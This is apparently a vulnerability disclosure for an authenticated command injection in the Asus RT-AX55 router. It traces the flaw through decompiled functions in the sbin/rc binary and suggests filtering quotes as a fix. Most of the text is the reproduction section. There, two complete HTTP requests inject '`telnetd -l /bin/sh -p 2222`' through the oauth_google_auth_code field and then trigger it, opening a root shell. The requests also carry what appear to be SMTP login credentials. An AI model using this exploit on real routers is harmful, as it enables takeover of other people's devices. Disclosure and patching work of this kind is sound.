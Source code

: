 # 0x01  Vulnerability Description #

The Asus `rt-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyze the binary file "`sbin/rc`" and in the function `FUN_0004d76c`, retrieve the value of "`oauth_google_drive_gen_token`" from the HTTP request parameter "`action_script`". Proceed to the function `FUN_000bc5c4`.

![](./img/1.png)

In the function `FUN_000bc5c4`.

![](./img/2.png)

Inside the function `FUN_000b95b4`, retrieve the value of "`oauth_google_auth_code`" from nvram, and finally concatenate the value of "`oauth_google_auth_code`" to the system function.

![](./img/3.png)

# 0x04  Vulnerability Reproduction #

Set the value of "`oauth_google_auth_code`".

request1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 564
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=8T9woufq7K9kEL4ZJfsNODKdPeobVwd; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=1947294877%40qq.com&PM_SMTP_AUTH_USER=1947294877&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%202222`'

![](./img//4.png)

Trigger command injection.

request2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=8T9woufq7K9kEL4ZJfsNODKdPeobVwd; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_drive_gen_token&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=17%40qq.com&PM_SMTP_AUTH_USER=197&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//5.png)

![](./img//6.png)

# 0x05  Vulnerability Fix #

Filter out single quotes in "`oauth_google_auth_code`".